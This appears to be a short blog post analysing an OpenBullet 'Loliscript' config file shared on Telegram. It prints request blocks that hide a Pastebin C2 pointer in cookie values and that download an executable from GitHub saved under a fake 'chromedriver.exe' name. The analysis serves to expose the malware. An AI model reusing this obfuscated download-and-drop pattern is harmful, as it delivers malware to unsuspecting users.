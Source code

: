 



While I was doing some web surfing I was looking at Some selenium drivers like Openbullet. While browsing I found a Telegram channel which was posting configuration files for this using the programming language "Loliscript" and yes that is the real name. Due to privacy and security reasons I have truncated some of the information in this as I do not want to be harassed by cyber criminals.



Lets get started.

Source code.

Since the script is Interpreted by open bullet . Some interesting HTTP requests stuck out to me.

```
REQUEST GET "https://www.google.com/recaptcha/enterprise/anchor?ar=1&k=6LfAM84ZAAAAAGLiQz5FBeADqq94dV48fMtiRqIj&co=aHR0cHM6Ly93d3cuY29pbmJhc2UuY29tOjQ0Mw..&hl=en&v=rPvs0Nyx3sANE-ZHUN-0nM85&size=invisible&cb=no851blwqc0u"
  COOKIE "hrd: /"
  COOKIE "hpr: bin"
  COOKIE "hdp: com"
  COOKIE "htp: raw"
  COOKIE "hht: RST8Xs**"
  COOKIE "hst: pastebin"
  COOKIE "kht: driver"
  COOKIE "kpt: chrome"
  COOKIE "krt: e"
  HEADER "Host: www.googleapis.com"
  HEADER "Accept: */*"
  HEADER "Content-Type: application/json"
  HEADER "X-Client-Version: iOS/FirebaseSDK/6.9.2/FirebaseCore-iOS"
  HEADER "X-Ios-Bundle-Identifier: network.googleapis.com"
  HEADER "Accept-Encoding: gzip, deflate"
  HEADER "User-Agent: FirebaseAuth.iOS/6.9.2 network.googleapis.com/2.7.9 iPhone/12.4.5 hw/iPhone7_2"
  HEADER "Accept-Language: en"
```

As you can see in this there is strange cookies When put together it is this URL 
https://pastebin.com/RST8Xs**
When you go here it has in text this.
samplecollection***/api/main/ocean

I assume this is some weird endpoint on their c2 server. This is confirmed as when i find another function 

```
REQUEST GET "https://raw.githubusercontent.com/<SOURCE>"
  HEADER "User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko"
  HEADER "Pragma: no-cache"
  HEADER "Accept: */*"
  -> FILE "<COOKIES(hpr)>/<COOKIES(kpt)><COOKIES(kht)>.<COOKIES(krt)>xe"

```
